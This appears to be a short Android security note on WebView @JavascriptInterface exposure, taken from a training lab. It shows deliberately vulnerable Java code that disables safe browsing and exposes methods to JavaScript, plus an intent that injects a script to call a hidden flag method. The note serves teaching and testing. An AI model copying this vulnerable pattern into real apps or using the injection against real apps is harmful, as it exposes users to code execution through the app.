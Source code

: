 ```yaml
---
description: A View that displays web pages.
---
```


# webview

## @JavascriptInterface

A Java function that contains the decorator `@JavascriptInterface` can be exposed into a webview. Vulnerable code:

```java
private void configureWebView() {
        WebSettings webSettings = this.webView.getSettings();
        webSettings.setJavaScriptEnabled(true);
        webSettings.setSafeBrowsingEnabled(false);
        this.webView.setWebChromeClient(new WebChromeClient());
        this.webView.setWebViewClient(new WebViewClient());
        this.webView.addJavascriptInterface(new JavaScriptInterface(), "Android");
    }

    /* loaded from: classes3.dex */
    public class JavaScriptInterface {
        public JavaScriptInterface() {
        }

        @JavascriptInterface
        public void showToast(String message) {
            Toast.makeText(MainActivity.this, message, 0).show();
        }

        @JavascriptInterface
        public void showFlag() {
            Toast.makeText(MainActivity.this, "HXT{java-in-a-webview}", 0).show();
        }
    }
```

Example of exploitation:

```java
private void sendHtmlIntent() {
        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setComponent(new ComponentName("io.hextree.webviewdemo", "io.hextree.webviewdemo.MainActivity"));
        intent.putExtra("htmlContent", "<html><body><script>Android.showFlag();</script></body></html>");
        startActivity(intent);
    }
```

{% embed url="https://developer.android.com/reference/android/webkit/WebView" %}

{% embed url="https://app.hextree.io/" %}
